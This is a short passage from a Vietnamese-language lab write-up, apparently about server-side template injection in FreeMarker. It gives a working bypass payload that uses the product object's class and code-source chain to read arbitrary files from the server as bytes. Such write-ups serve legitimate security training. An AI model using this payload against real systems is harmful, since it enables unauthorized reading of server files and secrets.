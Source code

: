 ta thấy template như nào thì view sẽ hiện ra như vậy --> reflected --> test

![Alt text](../image/lab6/05.png)

phát hiện lỗi --> tìm được template `FreeMarker`

![Alt text](../image/lab6/06.png)

bị block rồi --> bypass: 

```
${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('path_to_the_file').toURL().openStream().readAllBytes()?join(" ")}
Convert the returned bytes to ASCII

```

ta được chuỗi ASCII

![Alt text](../image/lab6/07.png)
